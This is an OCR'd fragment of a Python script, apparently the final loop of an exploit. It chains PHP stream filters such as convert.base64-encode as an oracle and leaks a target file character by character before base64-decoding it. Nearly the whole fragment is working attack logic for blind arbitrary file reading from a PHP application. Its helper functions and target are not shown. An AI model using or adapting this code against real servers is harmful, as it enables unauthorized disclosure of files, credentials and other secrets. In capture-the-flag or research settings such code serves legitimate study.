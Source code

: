 ```python
    else:  
        err('something wrong')  
  
  
print()  
for i in range(100):  
    prefix = f'{header}|{get_nth(i)}'  
    letter = find_letter(prefix)  
    # it's a number! check base64  
    if letter == '*':  
        prefix = f'{header}|{get_nth(i)}|convert.base64-encode'  
        s = find_letter(prefix)  
        if s == 'M':  
            # 0 - 3  
            prefix = f'{header}|{get_nth(i)}|convert.base64-encode|{r2}'  
            ss = find_letter(prefix)  
            if ss in 'CDEFGH':  
                letter = '0'  
            elif ss in 'STUVWX':  
                letter = '1'  
            elif ss in 'ijklmn':  
                letter = '2'  
            elif ss in 'yz*':  
                letter = '3'  
            else:  
                err(f'bad num ({ss})')  
        elif s == 'N':  
            # 4 - 7  
            prefix = f'{header}|{get_nth(i)}|convert.base64-encode|{r2}'  
            ss = find_letter(prefix)  
            if ss in 'CDEFGH':  
                letter = '4'  
            elif ss in 'STUVWX':  
                letter = '5'  
            elif ss in 'ijklmn':  
                letter = '6'  
            elif ss in 'yz*':  
                letter = '7'  
            else:  
                err(f'bad num ({ss})')  
        elif s == 'O':  
            # 8 - 9  
            prefix = f'{header}|{get_nth(i)}|convert.base64-encode|{r2}'  
            ss = find_letter(prefix)  
            if ss in 'CDEFGH':  
                letter = '8'  
            elif ss in 'STUVWX':  
                letter = '9'  
            else:  
                err(f'bad num ({ss})')  
        else:  
            err('wtf')  
  
    print(end=letter)  
    o += letter  
    sys.stdout.flush()  
  
"""  
We are done!! :)  
"""  
  
print()  
d = b64decode(o.encode() + b'=' * 4)  
```